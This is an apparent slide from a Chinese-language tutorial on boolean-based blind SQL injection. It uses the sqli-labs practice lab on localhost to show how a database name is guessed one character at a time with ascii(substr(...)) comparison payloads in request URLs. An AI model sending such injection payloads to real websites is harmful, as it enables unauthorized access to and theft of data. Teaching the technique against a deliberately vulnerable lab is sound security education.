

# 问题：  没有报错信息时，应该怎么办？
取出数据库名称 的第1个字母，并取长为1 ，一个一个进行猜解
http://localhost/sqli-labs/Less-8/?id=1' and ascii(substr((select database()),1,1))>110 %23
http://localhost/sqli-labs/Less-8/?id=1' and ascii(substr((select database()),1,1))>111 %23
	……
	http://localhost/sqli-labs/Less-8/?id=1' and ascii(substr((select database()),1,1))>115 %23